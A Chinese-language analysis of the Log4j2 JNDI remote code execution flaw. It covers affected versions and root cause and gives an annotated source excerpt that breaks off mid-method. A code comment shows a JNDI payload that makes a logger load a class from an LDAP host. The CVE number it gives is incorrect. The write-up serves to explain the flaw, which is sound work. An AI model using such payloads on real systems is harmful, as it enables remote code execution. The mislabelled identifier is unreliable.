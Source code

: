 

# CVE-2021-44428 | log4j2 >= 2.14.x 存在JNDI RCE漏洞



## 0x00 漏洞说明

Apache Log4j2 版本 2.14.x 及以下版本存在远程代码执行漏洞。攻击者可在任何可记录在日志消息的参数中进行 JNDI 注入。当启用消息查找替换时，攻击者可以控制日志消息或日志消息的参数并执行从 LDAP 服务器加载的任意代码。



## 0x01 影响版本

- <= 2.14.x Apache Log4j2



## 0x02 漏洞成因

LogManager.getLogger().error()  与 LogManager.getLogger().fatal() 默认情况下记录错误日志，并经过递归拼接最终进入lookup方法，导致JNDI注入



## 0x03 漏洞代码



!FILENAME MessagePatternConverter.format
```java
@Override
public void format(final LogEvent event, final StringBuilder toAppendTo) {
    final Message msg = event.getMessage();
    if (msg instanceof StringBuilderFormattable) {

        final boolean doRender = textRenderer != null;
        final StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;

        final int offset = workingBuilder.length();
        if (msg instanceof MultiFormatStringBuilderFormattable) {
            ((MultiFormatStringBuilderFormattable) msg).formatTo(formats, workingBuilder);
        } else {
            ((StringBuilderFormattable) msg).formatTo(workingBuilder);
        }
        if (config != null && !noLookups) {
            for (int i = offset; i < workingBuilder.length() - 1; i++) {
                // 是否以${开头
                if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                    // 这个value是：${jndi:ldap://127.0.0.1:1389/badClassName}
                    final String value = workingBuilder.substring(offset, workingBuilder.length());
                    workingBuilder.setLength(offset);
                    // 跟入replace方法
                    workingBuilder.append(config.getStrSubstitutor().replace(event, value));
                }
            }
        }
        if (doRender) {
            textRenderer.render(workingBuilder, toAppendTo);
        }
        return;
    }
    if (msg != null) {
        String result;
        if (msg instanceof MultiformatMessage) {
            result = ((MultiformatMessage) msg).getFormattedMessage(formats);
```